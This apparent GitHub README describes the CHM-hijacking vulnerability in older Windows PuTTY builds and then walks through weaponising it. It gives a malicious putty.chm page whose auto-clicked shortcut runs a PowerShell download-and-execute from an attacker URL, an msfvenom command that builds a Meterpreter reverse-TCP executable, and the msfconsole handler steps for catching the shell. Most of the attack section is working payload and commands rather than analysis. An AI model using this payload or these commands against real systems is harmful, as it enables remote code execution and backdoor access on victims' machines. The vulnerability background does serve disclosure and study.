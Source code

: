 # PuTTY vulnerability vuln-chm-hijack
Potential malicious code execution via CHM hijacking

### About
Up to and including version 0.70, when you launched the online help in any of the Windows PuTTY GUI tools, the tool would locate its help file by looking alongside its own executable.

If you were running PuTTY from a directory that unrelated code could arrange to drop files into (for example, running it directly from a browser's default download directory), this means that if somebody contrived to get a file called putty.chm into that directory (for example, by enticing you to click on a download link with that name) then PuTTY would believe it was the real help file, and feed it to htmlhelp.exe. 

This is a vulnerability because HTML Help files (.chm) can arrange in turn to run code of their choice, for example by embedding an <OBJECT> HTML element that is a Windows shortcut, plus Javascript to click it.

More details: https://www.chiark.greenend.org.uk/~sgtatham/putty/wishlist/vuln-chm-hijack.html

### What is CHM file? 

CHM is an extension for the Compiled HTML file format, most commonly used by Microsoft’s HTML-based help program. It may contain many compressed HTML documents and the images and JavaScript they link to. CHM features include a table of contents, index, and full text searching.

### This used before? 
In the past, threat actors used a CHM files to drop the backdoor file, which is commonly used in targeted attacks.

#### Some examples: 
https://www.bleepingcomputer.com/news/security/malicious-chm-files-being-used-to-install-brazilian-banking-trojans/
https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/chm-badness-delivers-a-banking-trojan/

### Procedure for generating Malicious CHM file

We need to HTML Help Workshop toolkit for create a CHM file.  After installation, then launch HTML Help Workshop tool. 

##### Steps

Click on File > New > Project and follow above steps:

![Creating HTML Help Project](https://raw.githubusercontent.com/yasinyilmaz/vuln-chm-hijack/master/img/htmlhelp1.png?token=AJAW6P6ROJBHAYPGNASRB2C44LKAW)

1. New Project Screen > Next > Browse 

2. Specify the name of your project file, and where you wild like it to be created. 

Fill File name: putty and click on "Open"

![Specify your HTML Help Project](https://raw.githubusercontent.com/yasinyilmaz/vuln-chm-hijack/master/img/htmlhelp2.png?token=AJAW6P2ZVN7U3FFQSHAGYX244LKB6)

3. If you have already created HTML file that you select to include in your project. 

Select HTML files (.htm)

Speciy where your .htm files are located. 

Add.. button and select an already created directory for exploit to hold your malicious file like as putty.htm 

![Select a HTM file](https://raw.githubusercontent.com/yasinyilmaz/vuln-chm-hijack/master/img/htmlhelp3.png?token=AJAW6P2IMQ44M7SU6U2IVOS44LKCU)

4. Wizard create a new HTML Help Project. We need to make changes. 

5. In the tool, double click on the created htm to edit it, then insert the code below to create a basic Help file:


```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<meta name="GENERATOR" content="Microsoft&reg; HTML Help Workshop 4.1">
<Title>putty</Title>
</HEAD>
<BODY>


</BODY>
</HTML>

```

6. Now, we create a button object which starts malicious exe when it’s clicked. In addition to the object, we also add a script part which will click the button automatically when the document is opened:


```
<html>
<title> PuTTY Help </title>
<head>
</head>
<body>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",powershell.exe, -nop -NoProfile -WindowsStyle 1 -c -IEX (New-Object Net.WebClient).DownloadString('{YOUR MALICIOUS FILE URL}')">
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>

<h2 align=center> PuTTY CHM </h2>
<p><h3 align=center> Welcome! </h3></p>
</body>
</html>

```
![Create malicious file](https://raw.githubusercontent.com/yasinyilmaz/vuln-chm-hijack/master/img/htmlhelp4.jpg?token=AJAW6P7N6GHRGXSXWGOW2S244LKDQ)


7. The PowerShell command will connect to the listed remote URL and execute the meterpreter that the site responds with. This remote script can be other PowerShell(.ps) script or Meterpreter Payload for Windows. 



How do I create a simple TCP Meterpreter Payload for Windows?

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={YOUR IP} LPORT={PORT } -f exe > malware.exe

```


When you double click on the Help button a putty.exe spawns as a child of malware.exe which is the interpretor of the CHM binary file.(Your malicious putty.chm and putty.exe file should be hold same directory)
  
![Spawns a malware](https://raw.githubusercontent.com/yasinyilmaz/vuln-chm-hijack/master/img/htmlhelp5.png?token=AJAW6P23TU4IRPER4L2RUK244LKGC)

How do I get the meterpreter shell?


```
msfconsole 
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost {YOUR IP}
lhost => {YOUR IP}
msf exploit(multi/handler) > set lport {PORT}
lport => {PORT}
msf exploit(multi/handler) > run

```

Resources: 
1. https://www.chiark.greenend.org.uk/~sgtatham/putty/wishlist/vuln-chm-hijack.html
2. https://safe-cyberdefense.com/hide-malware-microsoft-html-interpretors/
